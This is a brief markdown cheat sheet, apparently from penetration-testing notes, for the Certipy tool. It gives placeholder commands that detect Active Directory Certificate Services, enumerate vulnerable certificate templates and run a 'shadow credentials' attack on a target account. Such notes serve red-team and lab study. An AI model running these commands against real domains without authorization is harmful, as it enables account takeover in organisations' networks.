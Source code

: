 ```yaml
---
tags:
  - tool
---
```

# Certipy

[Certipy](https://github.com/ly4k/Certipy) is an offensive tool for enumerating and abusing Active Directory Certificate Services (AD CS).

```powershell
# Check if adcs is enabled
nxc ldap $IP -u $USER -p '$PASSWD' -M adcs
```

## Enumeration

**Note:** If we receive the error `The NETBIOS connection with the remote host timed out`, we can just try again.

```powershell
# Enuemrate vulnerable certificate templates
certipy find -vulnerable -u $USER@$DOMAIN -p '$PASSWD' -dc-ip $IP -stdout

# Enumerate enabled certificate templates
certipy find -enabled -u $USER@$DOMAIN -p '$PASSWD' -dc-ip $IP -stdout
```

### Exploitation

```powershell
# Shadow cred
certipy shadow auto -u $USER@$DOMAIN -p '$PASSWD' -account $TARGET_USER
certipy shadow auto -k -target $IP -account $TARGET_USER
```
